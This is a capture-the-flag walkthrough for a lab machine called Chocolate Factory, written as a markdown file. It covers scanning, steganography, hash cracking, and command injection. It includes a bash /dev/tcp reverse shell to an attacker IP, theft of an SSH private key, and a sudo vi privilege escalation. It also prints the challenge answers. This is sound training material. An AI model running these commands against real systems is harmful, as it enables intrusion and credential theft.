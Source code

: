 # CHOCOLATE FACTORY

---------------------
## IP: `10.10.239.116`<br />

---------------------
##### Open Ports Via Nmap -

`nmap -sC -sV -oN nmap/initial 10.10.239.116`<br />

![image](images/nmap.png)

```
21
22
80
100
106
109
110
111
113
119
125
```

-----------------------
##### We saw `anonymous` ftp login is enabled -<br />

![image](images/anonFTP.png)

> we get a jpg file<br />

![image](images/ftp.png)

> we can extract hidden data inside this image using steghide:<br />

Leave the passphrase field empty (:<br />

`steghide extract -sf gum_room.jpg`<br />

> We get a `base-64` encoded txt file<br />

To encode it we can do-<br />

`cat b64.txt | base64 -d > decodedB64`<br />

![image](images/charlieHash.png)

Yay we get charlie user's hash, we can crack it using john/hashcat<br />

First, store the hash inside a file:<br />

`echo '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/' > charlieHASH`<br />

```
john charlieHASH --w=/usr/share/wordlists/rockyou.txt
```

![image](images/john.png)

> We got the charlie's pass - <br />

```
cn7824
```

But we can't login via ssh with these creds, now i did a gobuster scan to find subdirectories (:<br />

`gobuster dir -u http://10.10.239.116 -w /usr/share/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 30 | tee gobuster.log`<br />

We get the following results-<br />

![image](images/gobuster.png)

```
/home.php
/index.html
```

-------------------
> Now there is a bit of a hoax and i don't know the why the owner did this?! lol<br />

1. If we navigate to `http://10.10.239.116/index.html`, we can see a login form. We can login via charlie creds.<br />

![image](images/index.png)

And we get redirected to `/home.php` and there's a command injection form, and we can execute and see results for commands like `id`, `whoami`, ...<br />

![image](images/home.png)

2. Or we can straight-forward navigate to `/home.php` and access that page, right!<br />

3. Never mind, let's get our rev-shell-<br />

`bash -c 'exec bash -i &>/dev/tcp/10.8.91.66/8888 <&1'`<br />

![image](images/www.png)

4. Let's stabilize our shell-<br />

`python3 -c 'import pty;pty.spawn("/bin/bash")'`<br />

`export TERM=xterm`<br />

`^Z` (ctrl+z)<br />

To put the process in background<br />

`stty raw -echo;fg`<br />

To foreground the process<br />

--------------------
##### Task 2 - Challenges <br />

1. Enter the key you found!<br />

> We can found the key in /var/www/html<br /> 

`cat key_rev_key`<br />

![image](images/key.png)

```
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
```

2. What is Charlie's password?<br />

```
cn7824
```

3. change user to charlie<br />

> We already checked that charlie's cracked hash wasn't the pass for ssh<br />

So we can directly `cd /home/charlie` from `www-data` user <br />

Here we will find user's ssh private key `teleport`, copy it in you machine and login via ssh<br />

![image](images/teleport.png)

We can login without the need for pass now, cuz we got charlie's ssh private key <br />

But after copy/pasting the private key to our machine, we need to give it read and write permisssions:<br />

`chmod 600 teleport`<br />

`ssh -i teleport charlie@10.10.239.116`<br />

4. Enter the user flag<br />

```
flag{cd..............................}
```

-------------------
##### Privilege Escalation Of User `charlie`: <br />

> First, we try checking sudo abilities of the user, by doing-<br />

`sudo -l`<br />

![image](images/sudo.png)

We found `/usr/bin/vi`, cool we can go-ahead and check [GTFO-BIN]() for vi-<br />

![image](images/gtfo.png)

Ay, we are root `#` let's get our root flag<br />

`cd /root`<br />

We see a python script `root.py`, hmm<br />

> Let's cat that script and see what's inside it-<br />

![image](images/script.png)

Okay, it needs a key and we found a key in `/var/www/html`

> Let's run the python script-<br />

`python root.py`<br />

Enter the key we found...<br />

AY, we got our last flag, let's paste it and complete our challenge `<3`<br />

![image](images/complete.png)

5. Enter the root flag<br />

```
flag{ce..............................}
```


Congratulations Friend For Making It Up To Here<br />
h00dy<br />